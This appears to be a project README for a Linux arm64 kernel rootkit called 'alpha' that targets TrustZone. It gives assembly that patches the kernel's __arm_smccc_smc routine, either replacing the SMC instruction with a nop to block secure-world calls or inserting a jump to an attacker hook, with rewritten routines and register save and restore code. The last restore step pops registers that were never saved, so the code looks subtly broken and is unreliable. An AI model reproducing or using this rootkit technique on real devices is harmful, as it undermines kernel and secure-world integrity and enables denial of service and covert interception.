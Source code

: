 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook SMC Call. It has been tested on a Linux kernel 4.19 with OP-TEE 3.5.0 but should work with any other TrustZone implementation.

### __arm_smccc_smc (arch/arm64/kernel/smccc-call.S)   
   
```   
   smc   #0
   ldr   x4, [sp]
   stp   x0, x1, [x4, #ARM_SMCCC_RES_X0_OFFS]
   stp   x2, x3, [x4, #ARM_SMCCC_RES_X2_OFFS]
   ldr   x4, [sp, #8]
   cbz   x4, 1f /* no quirk structure */
   ldr   x9, [x4, #ARM_SMCCC_QUIRK_ID_OFFS]
   cmp   x9, #ARM_SMCCC_QUIRK_QCOM_A6
   b.ne  1f
   str   x6, [x4, ARM_SMCCC_QUIRK_STATE_OFFS]
   ret
```   
   
### DoS (Denial of Service)   
   
It's the easiest way to avoid SMC call. Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### Hook SMC Call

The purpose of this attack is to insert our routine function in __arm_smccc_smc to filter the SMC call. First step is to jump to our hook function:    
```
   ldr   x8, .+8
   br    x8
   .dword [hook_address]
```

Next, the hook function have to manage the SMC call. We have to re-write the routine that has been erased and put it at the end of our hook function:    
```
   __asm__( "smc #0;"
            "ldr x4, [sp];"
            "stp x0, x1, [x4];"
            "stp x2, x3, [x4,#16];"
            "ldr x4, [sp,#8];"
            "cbz x4, .+20;"
            "ldr x9, [x4];"
            "cmp x9, #0x1;"
            "b.ne .+8;"
            "str x6, [x4,#8];"
            "ret;");
```

In order to have the ability to do anything inside the hook function, we have to save registers. We add a pre-routine and a post-routine in the hook function. The pre-routine is as follow:
```
   stp   x0, x1, [sp, #-16]!
   stp   x2, x3, [sp, #-16]!
   stp   x4, x5, [sp, #-16]!
   stp   x6, x7, [sp, #-16]!
   stp   x18, x19, [sp, #-16]!
   stp   x20, x21, [sp, #-16]!
   stp   x22, x23, [sp, #-16]!
   stp   x24, x25, [sp, #-16]!
   stp   x26, x27, [sp, #-16]!
   stp   x28, x29, [sp, #-16]!
   str   x30, [sp, #-8]!
```   

And the post-routine:
```
   ldr   x30, [sp], #8
   ldp   x28, x29, [sp], #16
   ldp   x26, x27, [sp], #16
   ldp   x24, x25, [sp], #16
   ldp   x22, x23, [sp], #16
   ldp   x20, x21, [sp], #16
   ldp   x18, x19, [sp], #16
   ldp   x6, x7, [sp], #16
   ldp   x4, x5, [sp], #16
   ldp   x2, x3, [sp], #16
   ldp   x0, x1, [sp], #16
   ldp   x29, x30, [sp], #16
```

### References   

http://infocenter.arm.com/help/topic/com.arm.doc.den0028b/ARM_DEN0028B_SMC_Calling_Convention.pdf   
https://github.com/torvalds/linux/blob/master/include/linux/arm-smccc.h   
https://github.com/torvalds/linux/blob/master/arch/arm64/kernel/smccc-call.S   
